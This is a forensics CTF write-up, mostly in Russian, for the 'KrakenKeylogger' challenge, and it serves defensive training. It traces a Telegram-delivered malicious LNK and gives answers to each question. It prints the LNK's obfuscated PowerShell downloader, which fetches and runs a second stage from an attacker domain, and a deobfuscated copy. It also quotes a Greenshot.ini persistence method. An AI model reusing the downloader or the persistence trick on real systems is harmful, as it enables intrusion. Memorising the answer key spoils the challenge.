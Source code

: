 ```yaml
---
link: https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/
tags:
  - LECmd
  - Timeline
  - DBBrowser
---
```

---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:
![[Pasted image 20250212035057.png]]
> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:
![[Pasted image 20250212035706.png]]

Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение
- 
Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31